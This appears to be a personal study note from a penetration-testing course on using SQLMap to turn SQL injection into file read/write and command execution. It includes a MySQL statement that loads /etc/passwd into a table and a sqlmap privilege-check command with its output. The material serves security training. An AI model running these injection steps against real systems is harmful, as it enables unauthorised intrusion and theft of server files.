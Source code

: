 ```yaml
---
sticker: lucide//database-backup
---
```

SQLMap has the ability to utilize an SQL Injection to read and write files from the local system outside the DBMS. SQLMap can also attempt to give us direct command execution on the remote host if we had the proper privileges.

---

## File Read/Write

The first part of OS Exploitation through an SQL Injection vulnerability is reading and writing data on the hosting server. Reading data is much more common than writing data, which is strictly privileged in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in MySql, to read local files, the DB user must have the privilege to `LOAD DATA` and `INSERT`, to be able to load the content of a file to a table and then reading that table.

An example of such a command is:

- `LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`

While we do not necessarily need to have database administrator privileges (DBA) to read data, this is becoming more common in modern DBMSes. The same applies to other common databases. Still, if we do have DBA privileges, then it is much more probable that we have file-read privileges.

---

## Checking for DBA Privileges

To check whether we have DBA privileges with SQLMap, we can use the `--is-dba` option:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:31:55 /2020-11-19/

[17:31:55] [INFO] resuming back-end DBMS 'mysql'
[17:31:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: False

[*] ending @ 17:31:56 /2020-11-19
```
